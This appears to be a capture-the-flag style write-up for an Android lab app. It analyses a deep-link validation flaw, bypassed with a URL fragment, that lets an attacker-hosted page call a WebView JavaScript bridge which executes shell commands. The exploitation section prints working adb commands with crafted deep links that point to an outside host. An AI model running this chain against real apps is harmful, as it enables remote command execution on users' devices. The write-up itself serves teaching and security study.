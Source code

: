 # Analysis
1. In `AndroidManifest.xml` we can see activity that process the DeepLink, the scheme and host.
![AndroidManifest](images/androidmanifest.png)

2. Class `WebviewActivity` is do setup the `webView`, it's enabled the javascript and add javascript interface, then call `loadAssetIndex` and `handledDeepLink`.

   ![WebviewActivity](images/WebviewActivity.png)

3. The JavaScript Interface allows us to call Java functions from within JavaScript that is loaded in the WebView by using `AndroidBridge`.
![javascript interface](images/MyJavaScriptInterface.png)

4. The function `loadAssetIndex` is just load the `index.html` from assets inside it's self.
![loadAssetIndex](images/loadassets.png)

5. The function `handleDeepLink` is check whether the Uri provided from `Intent` is valid or not using function `isValidDeepLink`, if the uri is not valid, the code will call `loadAssetIndex`, if it's valid, the code will call `loadDeepLink`.
![handleDeepLink](images/handleDeepLink.png)

6. The `isValidDeepLink` function only verifies that the url query parameter ends with "mobilehackinglab.com". However, this check is flawed because it does not account for URL fragments (i.e., the part after #). URL fragments are never sent to the server and are ignored by most URL parsers when determining the domain.
![valid deeplink](images/isValidDeepLink.png)

7. And then function `loadDeepLink` will get url from DeepLink query parameter `url` and load it.
![load deep link](images/loadDeepLink.png)

8. Function `getTime` is do command execution based on parameter that provided inside javascript at `index.html` that do call `AndroidBridge.getTime("<malicioud command>")`
![getTime](images/vuln%20code.png)

9. Based on our analysis, we need to craft DeepLink to load our malicious `index.html` that call `AndroidBridge.getTime` with malicious command, and serve the `index.html` so we can used the url as value for DeepLink parameter `url`

# Exploitation
1. Run the app, and icon inside red box is the trigger to load `index.html` inside it's assets.
![trigger webview activity](images/webviewactivity%20in%20app%20trigger.png)
![load index.html](images/in%20app%20webview.png)

2. We used `index.html` inside assets the apps as based on our malicious `index.html`.
![asset index.html](images/asset%20indexhtml.png)

3. Modified the execution of `index.html` to get the malicious command from query parameter `cmd`
![malicious index.html](images/malicious%20index%20html.png)

4. Serve our `index.html`
![start web server](images/start%20web%20server.png)

5. Crafting the DeepLink.

We can craft a DeepLink where the actual domain is an attacker-controlled server (e.g., `http://ip:port/index.html?cmd=maliciousCmd`), and we append `#mobilehackinglab.com` at the end of the URL to pass the validation. When the app processes this DeepLink, it will load the attacker-controlled index.html, allowing JavaScript within the page to call AndroidBridge.getTime() with a malicious command.

```url
mhl://mobilehackinglab?url=http://ip:port/index.html?cmd=maliciousCmd#mobilehackinglab.com packagename
```

6. We need to url encoded the value of parameter `url`
```sh
# Before
am start -W -a android.intent.action.VIEW -d "mhl://mobilehackinglab?url=http://192.168.188.200:8001/index.html?cmd=id#mobilehackinglab.com"
```
```sh
# After
am start -W -a android.intent.action.VIEW -d "mhl://mobilehackinglab?url=http%3A%2F%2F192.168.188.200%3A8001%2Findex.html%3Fcmd%3Did%23mobilehackinglab.com" com.mobilehackinglab.guessme
```

7. Run the command inside adb shell and the app will load our malicious `index.html`
![run payload](images/run%20command%20intent.png)

8. The app will render and display the output of `AndroidBridge.getTime`, which during execution will appear as `AndroidBridge.getTime("id")`.

   ![RCE output](images/rce.png)
